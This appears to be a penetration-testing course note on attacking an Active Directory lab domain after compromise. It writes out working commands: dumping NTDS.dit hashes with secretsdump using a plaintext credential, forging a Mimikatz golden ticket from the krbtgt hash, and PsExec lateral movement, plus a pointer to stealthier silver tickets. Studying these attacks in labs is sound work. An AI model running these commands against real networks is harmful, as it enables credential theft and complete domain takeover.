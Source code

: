 
## Compromised the Domain - Now What?
 
 - [ ] Post-Domain Compromise Attack Strategy 

```
If we compromise the domain controller on day one, we need to put our
blinders on and go do it again.
```

![[Pasted image 20241116140123.png]]



 - [ ] Dumping the NTDS.dit 

```
secretsdump.py MARVEL.local/pparker:'Password2'@192.168.138.132 -just-dc-ntlm
```

```
You never have to worry about PC passwords cuz if we were going to
crack anything, we would not include PC passwords.
```


- [ ] Golden Ticket Attacks

![[Pasted image 20241116223136.png]]


We can utilize Mimikatz to obtain the information necessary to perform this attack.

```
mimikatz.exe
```

```
privilege::debug
```

```
lsadump::lsa /inject /name:krbtgt
```


```
kerberos::golden /User:Administrator  /domain:marvel.local /sid:S-1-5-21-1232359821-2011282127-2883546489 /krbtgt:5dbde4a7fe0e1cced076a9a3ff2128ad /id:500 /ptt
```


If Golden ticket gets picked up and want to get stealthier than look into the what a silver ticket is
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets

```
dir \\10.0.0.25\C$
```

```
PsExec64.exe \\10.0.0.25 cmd.xex 
```




- [ ] Additional Active Directory Attacks

